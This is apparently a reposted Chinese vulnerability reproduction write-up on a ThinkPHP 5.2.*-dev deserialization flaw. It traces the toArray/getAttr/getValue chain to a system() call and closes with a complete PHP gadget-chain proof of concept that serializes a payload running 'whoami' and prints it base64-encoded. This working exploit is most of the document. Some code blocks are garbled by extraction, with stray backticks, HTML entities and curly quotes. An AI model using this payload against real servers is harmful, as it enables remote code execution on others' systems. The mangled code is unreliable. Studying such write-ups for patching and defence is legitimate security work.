





# Thinkphp 5.2.*-dev 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3178](https://www.zhihuifly.com/t/topic/3178)

# Thinkphp 5.2.*-dev 反序列化漏洞

## 一、漏洞简介

所有Thinkphp版本下载链接

https://packagist.org/packages/topthink/framework

## 二、漏洞影响

## 三、复现过程

### 环境搭建

```
composer create-project topthink/think=5.2.*-dev v5.2 
```

### poc演示截图



### 调用链



### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到$data可控

```
public function toArray(): array
{
。。。
$data = array_merge($this->data, $this->relation); `foreach ($data as $key => $val) {

if ($val instanceof Model || $val instanceof ModelCollection) {

// 关联模型对象

if (isset($this->visible[$key])) {

$val->visible($this->visible[$key]);

} elseif (isset($this->hidden[$key])) {

$val->hidden($this->hidden[$key]);

}

// 关联模型对象

$item[$key] = $val->toArray();

} elseif (isset($this->visible[$key])) {

$item[$key] = $this->getAttr($key);

} elseif (!isset($this->hidden[$key]) && !$hasVisible) {

$item[$key] = $this->getAttr($key);

}

}

。。。` 
```

```
public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = true;
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
} 
```

```
public function getData(string $name = null)
   {
       if (is_null($name)) {
           return $this->data;
       }

       $fieldName = $this->getRealFieldName($name);

       if (array_key_exists($fieldName, $this->data)) {
           return $this->data[$fieldName];
           ...
       }
   } 
```

```
protected function getRealFieldName(string $name): string
{
    return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
} 
```

可以看到getAttr函数中的$value可控，那么导致$this->getValue($name, $value, $relation);这里的三个参数都可控，跟进$this->getValue($name, $value, $relation);

```
protected function getValue(string $name, $value, bool $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . App::parseName($name, 1) . 'Attr';

```
if (isset($this-&gt;withAttr[$fieldName])) {
   if ($relation) {
     $value = $this-&gt;getRelationValue($name);
   }

   $closure = $this-&gt;withAttr[$fieldName];
   $value   = $closure($value, $this-&gt;data); 
``` 
```

这里$fieldName、$this->withAttr，导致$closure也可控，最终直接产生RCE。如下图



补充：

```
<?php `$a = array();

system(‘whoami’,$a);` 
```





### poc v5.2.*-dev

```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {

trait Conversion

{

protected $append = array(“Smi1e” => “1”);

}

```
trait Attribute
{
    private $data;
    private $withAttr = array("Smi1e" =&gt; "system");

    public function get($system)
    {
        $this-&gt;data = array("Smi1e" =&gt; "$system");
    }
} 
```

}

namespace think {

abstract class Model

{

use model\concern\Attribute;

use model\concern\Conversion;

}

} `namespace think\model{

use think\Model;

class Pivot extends Model

{

public function __construct($system)

{

$this->get($system);

}

}

}

namespace{

$Conver = new think\model\Pivot(“whoami”);

$payload = new think\process\pipes\Windows($Conver);

echo base64_encode(serialize($payload));

}

?>` 
```